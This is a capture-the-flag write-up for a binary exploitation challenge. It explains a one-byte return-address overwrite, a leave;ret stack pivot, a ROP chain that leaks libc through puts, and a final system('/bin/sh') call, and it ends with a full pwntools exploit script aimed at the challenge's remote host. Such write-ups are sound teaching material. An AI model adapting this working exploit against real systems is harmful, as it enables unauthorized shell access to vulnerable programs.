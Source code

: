 # Help

This one's a whirlwind, and it's a bit complex, so I'll lay it out in parts.

* Lots and lots of functions. The structure of the execution of the program is a little nested. Honestly, it doesn't matter much or at all. There are two functions we must focus on - ok, and finallyyouhelpedme
* Function: ok. This function has a global counter, on the sixth time it runs, we get an input. It reads 0x29 bytes into rbp-0x20 - giving us full control over RBP and partial control over the return address. By partial, I mean one byte. This is enough to send the binary to 0x40017XX, as the return address saved begins with 0x40017 and we can overwrite one byte of it. What can we do with this?
* Function: finallyyouhelpedme. It has two inputs. One that was irrelevant for what I did, but probably useful for other methods. It read into a global variable. The second one is a proper buffer overflow - 0x40 bytes read into rbp-0x20. This gives us control over saved RBP, and enough to make a 24-byte ROP chain.

finallyyouhelpedme is never called - we must redirect ok's return address into it. We can overwrite the first byte of the return address with 0x1f, sending it into the 4th instruction of finallyyouhelped me, where our input begins. I jumped here so that I didn't have to deal with stack alignment, nor things messing up between rbp and rsp.

Now what? a 24-byte ropchain is enough to do poprdi + got address + plt address and leak a libc address, but we cant return back to a function for another input after that.

Wait! The input is at rbp-0x20. 0x20 is 32 - that's exactly enough to do poprdi + got address + plt address + address of finallyyouhelpedme. Perfect!

What we'll do here is called a stack pivot. We can change the location of rsp via a leave ; ret gadget in order to relocate the stack and force the program to start popping ret addresses from somewhere else.

In order to do that, we need to know whereabouts our input is. I accomplished this by controlling saved RBP. Let's think back to our first input in ok. We get full control of saved RBP here, and this will be the RBP that gets passed into finallyouhelpedme\(as we ret into the instruction after the whole push rbp;mov rbp,rsp mumbo jumbo\). Thus, we can force the stack into a specific place. As there's no PIE, the segment mapped RW is constant, so we can set it somewhere int here.

Ok, back to before. We force RBP into a known place inside of a RW segment, so we know exactly where our input is. Now, we can send:

rop chain + address of input - 8 + leave ret

leave will set rsp to rbp, then pop rbp off the stack. Setting it to input - 8 means some random value will be popped off.

In order to stop problems with this later, we ret straight into the beginning of the finallyyouhelpedme function. As this moves rbp up to rsp, it causes anything we might've messed up in the stack\(like that random rbp value...\) to be automatically fixed.

Our rop chain will then be poprdi + got address + puts@plt + finallyouhelpedme address

Now, we will receive a libc address\(write, specifically\) and another input. We can calculate the libc base off of this, and use the classic payload - system\("/bin/sh"\).

Final exploit:

1. Send 0x20 bytes of junk + address in RW segment + 0x1f
2. Send poprdi + got address + puts@plt + finallyyouhelpedme address + address of input - 8 + leave;ret gadget address
3. Receive libc address. Calculate base. Send dummy input\(first input, useless\) then send 0x28 bytes of junk\(rbp doesnt matter anymore\) + poprdi + /bin/sh address + system address

Script below.

```python
from pwn import *
import sys
mode = sys.argv[1]
NUM_TO_RBP = 0x20
NUM_TO_RET = NUM_TO_RBP + 8
pad1 = b'A' * NUM_TO_RBP
pad2 = b'A' * NUM_TO_RET
fakestack = 0x602000 - 0x200
poprdi = 0x0000000000400943 # pop rdi ; ret
ret = 0x00000000004005b6 # ret
leaveret = 0x0000000000400778 # leave ; ret
e = ELF("./chall2")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6" if mode == 'local' else '/home/kali/Tools/libc-database/libs/libc6_2.27-3ubuntu1_amd64/libc.so.6')
p = e.process() if mode == 'local' else remote('europe.pwn.zh3r0.ml', 7412)
payload = p64(fakestack) + b'\x1f'
p.recv()
p.sendline(pad1 + payload)
p.recv()
#leak = flat(fakestack, poprdi, e.got['write'],e.plt['puts'] , e.symbols['finallyyouhelpedme'],word_size=64)
bufaddr = fakestack-0x20
changer = flat(bufaddr-8,leaveret,word_size=64)
chain = flat(poprdi, e.got['write'],e.plt['puts'],e.symbols['finallyyouhelpedme'],word_size=64)
payload = chain
payload += b'B' * (NUM_TO_RBP - len(chain))
payload += changer
p.sendline(payload)
if mode == 'remote':
    p.recvlines(2)
output = p.recvline()[:-1] + b'\x00\x00'
leak = u64(output)
libcbase = leak - libc.symbols['write']
log.info(f"Libc puts leak: {hex(leak)}")
log.info(f"Libc base: {hex(libcbase)}")
libc.address = libcbase
final = flat(poprdi, next(libc.search(b"/bin/sh\x00")),libc.symbols['system'],word_size=64)
pause()
p.sendline('t')
p.recvlines(2)
p.sendline(pad2 + final)
p.interactive()
```

